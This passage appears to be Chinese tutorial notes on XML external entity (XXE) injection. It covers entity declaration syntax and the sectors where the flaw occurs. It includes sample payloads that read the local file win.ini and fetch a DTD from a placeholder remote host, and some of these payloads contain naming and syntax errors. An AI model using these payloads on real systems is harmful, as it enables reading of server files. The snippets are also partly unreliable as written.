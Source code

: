 ```xml
<!-- 外部实体声明 -->
格式：<!ENTITY 实体名称 SYSTEM "URI/URL">
	DTD实例：<!ENTITY writer SYSTEM "http://www.baidu.com/1.dtd">
		    <!ENTITY copyright SYSTEM "http://www.baidu.com/2.dtd">
	XML实例：<author>&writer;&copyright;</author>
```

```xml
<!-- 参数实体声明 -->
格式：<!ENTITY % 实体名称 "实体值">
	 or
	 <!ENTITY % 实体名称 SYSTEM "URL">
实例：
	dtd内容：<!ENTITY evil SYSTEM "file:///c:/windows/win.ini" >
	XML内容：<!DOCTYPE foo [<!ELEMENT foo ANY >
		    <!ENTITY % xxe SYSTEM "http://ip/1.dtd" >
		    xxe;]>
		    <foo>&evil;</foo>
```

```xml
<!-- 引用公共实体 -->
格式：<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
	XML实例：<!DOCTYPE foo [<!ELEMENT foo ANY >
		    <!ENTITY % xee PUBLIC "public_ID" "http://ip/q.dtd" >
		    %xxe;]>
		    <foo>&evil;</foo>
```



## 二、漏洞特征

### 1、场景

```xml
<!-- 广义 -->
1、数据传输
2、WEB服务
3、内容管理
4、WEB集成
5、文件配置
```

```xml
<!-- 狭义 -->
1、互联网
2、政府电子政务
3、城市计划
4、土地管理
5、电力
6、气象
7、房地产
8、电信
9、水利
10、农业
```
